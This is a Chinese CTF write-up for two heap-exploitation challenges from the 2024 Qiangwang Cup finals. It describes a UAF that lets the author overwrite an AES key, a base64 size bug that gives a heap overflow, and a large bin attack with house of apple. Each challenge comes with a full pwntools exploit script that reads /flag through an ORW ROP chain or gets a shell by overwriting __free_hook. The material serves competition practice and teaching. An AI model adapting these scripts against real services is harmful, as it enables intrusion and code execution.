# 2024 强网杯决赛PWN部分解-先知社区

> **来源**: https://xz.aliyun.com/news/16079  
> **文章ID**: 16079

---

# PWN

## heap

### 程序分析

libc版本是libc-2.31的



也开了沙盒



### 代码审计

在初始化处，程序生成了`key`以及得到了`heap`的基址



生成的key是进行加密作用的，程序使用aes\_ecb加密



得到的`heap`基址是对申请出来的`chunk`的地址进行限制



### 漏洞位置



十分明显的`UAF`漏洞

### 难点

难点在于我们如何进行写入，以及泄露程序基址

#### 写入

根据调试发现，程序的`aes`加密或解密的大小都是需要满足`0x10`的倍数才可以成功的，但是我们定位到`add`函数的位置



我们是先在对应`chunk`位置上写入明文数据，然后再通过加密函数进行加密，所以我们如果使得加密大小不满足`0x10`的倍数，即可使得加密失败，我们的数据不会进行改变（具体原因没有深究）

#### 泄露

这里我们定位到`show`函数上



这里可以发现，函数的逻辑是把解密数据保存的栈上，所以如果解密失败我们不能像上面`add`函数那样，所以我们这里的唯一思路就是把`key`给修改了，修改为我们知道的值，这样加密和解密我们都可以控制了

### 利用思路

我们首先利用`UAF`，释放两个`chunk`，然后修改对应的指针为存储`key`的`chunk`的位置，然后我们就可以修改到`key`的值了

```
add(0,b"B"*0x20) 
add(1,b"B"*0x20)
dele(0) # free chunk A
dele(1) # free chunk B

edit(1,b"\xa0") # 修改 chunk B的FD尾位使得指向chunk B
add(0,b"B"*0x10)
add(1,b"B"*0x10) # 申请到存储key的chunk 
edit(1,b"B"*0xf) # 修改key值

```

然后我们就把key值给修改了，这里只能修改0xf个，因为如果是完全修改的话，加密会成功，理论上需要爆破一个字节，但是程序不知道为什么最后一位的字节是固定的

后面基本就是正常的利用手法，因为程序自己有一个安全检查，所以我们只能利用large bin attack的攻击手法



`add`只允许我们申请`0x30`大小的`chunk`，本质上是不满足我们`large bin attack`的攻击条件，所以我们只能伪造属于`large bin`大小的`chunk`，需要一些风水布局，然后打`house of apple`构造`ROP`链进行`ORW`就`ookk`了

### exp

```
from pwn import*
from Crypto.Cipher import AES
context(arch='amd64', os='linux',log_level="debug")
context.terminal=["wt.exe","wsl.exe"]
#libc = ELF("../libc/")
libc = ELF("./libc-so.6")
"""""
def xxx():
    p.sendlineafter("")
    p.sendlineafter("")
    p.sendlineafter("")
"""

def get_p(name):
    global p,elf 
    # p = process(name)
    p = remote("47.94.222.17",28828)
    elf = ELF(name)

def add(idx,content):
    p.sendlineafter(">> ",'1')
    p.sendlineafter("idx: ",str(idx))
    p.sendafter("content: ",content)
def dele(idx):
    p.sendlineafter(">> ",'2')
    p.sendlineafter("idx: ",str(idx))

def show(idx):
    p.sendlineafter(">> ",'3')
    p.sendlineafter("idx: ",str(idx))

def edit(idx,content):
    p.sendlineafter(">> ",'4')
    p.sendlineafter("idx: ",str(idx))
    p.sendafter("content: ",content)

key = b"B"*0xf
def get_key(idx):
        key = b"B"*0xf + p8(0xba)
        show(idx)
        cipher = AES.new(key,AES.MODE_ECB)
        plaintext = cipher.encrypt(p.recv(0x10))
        # return plaintext
        print(plaintext)
        return plaintext
get_p("./heap")
add(0,b"B"*0x20)
add(1,b"B"*0x20)
dele(0)
dele(1)
# dele(0)
# show(0)

edit(1,b"\xa0")
add(0,b"B"*0x10)
add(1,b"B"*0x10)
edit(1,b"B"*0xf)


add(0,b"A"*0x10)
add(1,b"A"*0x10)
add(2,b"A"*0x10)
for i in range(0x10):
    add(3,b"A")

dele(1)
dele(0)

heap =  u64(get_key(0)[:8])


edit(0,b"\xb0")
add(0,b"A")
add(1,p64(0)+p16(0x440))
edit(1,p64(0)+p16(0x441))


add(1,b"AA")
# dele(2)
add(4,b"A"*0x20)

add(5,b"A")
add(6,b"A")

for i in range(0xe):
    add(7,b"A")

add(7,p64(0)+p16(0x31))
edit(7,p64(0)+p16(0x31))
add(7,p64(0)+p16(0x31))
add(7,p64(0)*3+p16(0x21))

edit(7,p64(0)*3+p16(0x21))

dele(1)
dele(0)
edit(0,b"\x30")
add(0,b"A")
add(1,p64(0)+p16(0x440))
edit(1,p64(0)+p16(0x451))

dele(5)
dele(0)
edit(0,b"\xb0")
add(0,b"A")

add(1,p64(0)+p16(0x440))
edit(1,p64(0)+p16(0x461))
# show(2)

# dele(6)
# dele(6)
dele(2)
dele(6)

# sleep(2)
libc.address = u64(get_key(2)[:8]) - 0x1ecbe0
print(hex(libc.address))
add(1,p64(0)+p16(0x440))

key = b"B"*0xf + p8(0xba)
cipher = AES.new(key,AES.MODE_ECB)
payload = p64(libc.address + 0x1ecfe0)*2 + p64(heap + 0x530) + p64(libc.sym['_IO_list_all']-0x20)
de_payload = cipher.decrypt(payload)
print(hex(heap))

edit(6,de_payload)

dele(4)
add(1,p64(0)+p16(0x440))


FP = heap + 0x4b0 
A = FP + 0x100
B = A + 0xe0 - 0x60
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
ROP_addr = heap + 0x340
setcontext = libc.sym['setcontext']
ret = 0x0000000000022679 + libc.address
payload = (0xa0-0x10)*b"\x00" + p64(A) # 
payload = payload.ljust(0xb0,b"\x00") + p64(1)
payload = payload.ljust(0xc8,b"\x00") + p64(_IO_wfile_jumps-0x40)
payload = payload.ljust(0x190,b"\x00") + p64(ROP_addr) + p64(ret)
payload = payload.ljust(0xf0+0xe0,b"\x00") + p64(B) + p64(setcontext + 61)

print(hex(len(payload)))

de_payload = cipher.decrypt(payload)
for i in range(10):
    dele(1)
    dele(0)
    edit(0,p64(heap+0x4c0+i*0x30))
    add(0,b"AA")
    add(1,b"AAA")
    edit(1,de_payload[0x30*i:0x30*(i+1)])
    add(1,b"/flag\x00")
    print(hex(i*0x30+0x30))


# for i in range(0)
pop_rdi = 0x0000000000023b6a + libc.address
pop_rsi = 0x000000000002601f + libc.address
ret_0x10 = 0x00000000000b883e + libc.address
pop_rdx = 0x000000000010257d + libc.address

payload = p64(pop_rdi) + p64(ROP_addr) + p64(libc.sym['gets']) + p64(0)
de_payload = cipher.decrypt(payload)
add(1,de_payload)

p.sendlineafter(">>",'6')

# gdb.attach(p,"b *&open")
# sleep(2)
payload = p64(ret)*5 + p64(pop_rdi) + p64(heap+0x410) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0)*3 + p64(libc.sym['open']) + p64(pop_rdi)
payload += p64(3) + p64(pop_rsi) + p64(heap) + p64(pop_rdx) + p64(0x50) + p64(0)*2 + p64(libc.sym['read']) + p64(pop_rdi) + p64(1) 
payload += p64(libc.sym['write']) + b"/flag\x00"
p.sendline(payload)
p.interactive()

```

## ez\_heap

### 程序分析

libc版本是libc-2.31的，可以利用`free_hook`，并且没有开启沙盒



### 代码审计

程序是进行base64的加密以及解密的功能的



关于加密和解密分别对应两种申请`chunk`以及释放`chunk`的流程，关于漏洞点，我审到解密对应的申请有漏洞，就没有往加密的看了（或许加密也有）

#### en\_add()



这里很明显，把我们输入大小进行右移了两位实际上等于除以四，然后乘以三

程序没有考虑到，如果我们输入的大小不满足整除于四的情况，因为正常的base64的加密数据是会是四的倍数的，但是因为它没有考虑到这个情况，所以我们可以控制多三个字节，使得堆溢出

### 思路

既然我们有了堆溢出，那么就可以考虑到使用堆叠

```
en_add("A"*0x20) # 0x40大小的chunk 1 
de_add("A"*0x40) # 0x40大小的chunk 2 
de_add("A"*0x40) # 0x40大小的chunk 3 

en_dele(0) # 释放chunk 3
payload = b"Qt"*(0x38//2+8) + b"="
de_add(payload) 修改 chunk 2 的size位为0x81
```

得到了堆叠，我们就可以任意申请地址写了，我们还差把`libc`的地址给泄露出来

#### de\_show



我们可以申请一个大`chunk`可以直接进入到`unsorted bin`里的，然后通过`de_add`把遗留的`libc`地址给泄露出来，我们只需让它写入往`chunk`里`0x8`的数据就可以泄露出来`libc`地址

后面我们直接`free_hook`修改为`system`即可`getshell`

### exp

```
from pwn import*
import base64
context(arch='amd64', os='linux',log_level="debug")
context.terminal=["wt.exe","wsl.exe"]
#libc = ELF("../libc/")
libc = ELF("./libc-so.6")
"""""
def xxx():
    p.sendlineafter("")
    p.sendlineafter("")
    p.sendlineafter("")
"""

def get_p(name):
    global p,elf 
    # p = process(name)
    p = remote("47.94.85.95",32941)
    elf = ELF(name)

def en_add(content):
    p.sendlineafter("Enter your choice: ",'1')
    p.sendafter("Enter the text to encode: ",content)

def de_add(content):
    p.sendlineafter("Enter your choice: ",'2')
    p.sendafter("Enter the text to decode: ",content)
def en_show(idx):
    p.sendlineafter("Enter your choice: ",'4')
    p.sendlineafter("idx",str(idx))    
def en_dele(idx):
    p.sendlineafter("Enter your choice: ",'3')
    p.sendlineafter("idx",str(idx))

def de_dele(idx):
    p.sendlineafter("Enter your choice: ",'4')
    p.sendlineafter("idx",str(idx))

def en_show(idx):
    p.sendlineafter("Enter your choice: ",'5')
    p.sendlineafter("idx",str(idx))    

def de_show(idx):
    p.sendlineafter("Enter your choice: ",'6')
    p.sendlineafter("idx",str(idx))    

get_p("./pwn")
en_add("A"*0x20)
de_add("A"*0x40)
de_add("A"*0x40)


en_dele(0)
payload = b"Qt"*(0x38//2+8) + b"="
de_add(payload)

en_add("A"*0x380)
en_add("A"*0x20)
en_dele(0)

payload = base64.b64encode(b"A"*8)[:-1]

de_add(payload)

de_show(3)

libc.address = u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00")) - 0x1ed041
print(hex(libc.address))

de_dele(0)
en_dele(1)
de_dele(1)

payload = b"A"*0x38 + p64(0x41) + p64(libc.sym['__free_hook']) + p64(0)

payload = base64.b64encode(payload.ljust(0x70,b"A"))
de_add(payload)

de_add(base64.b64encode((b'/bin/sh\x00').ljust(0x30,b"A")))
de_add(base64.b64encode(p64(libc.sym['system']).ljust(0x30,b"A")))

de_dele(1)
# gdb.attach(p,"")
p.interactive()

```
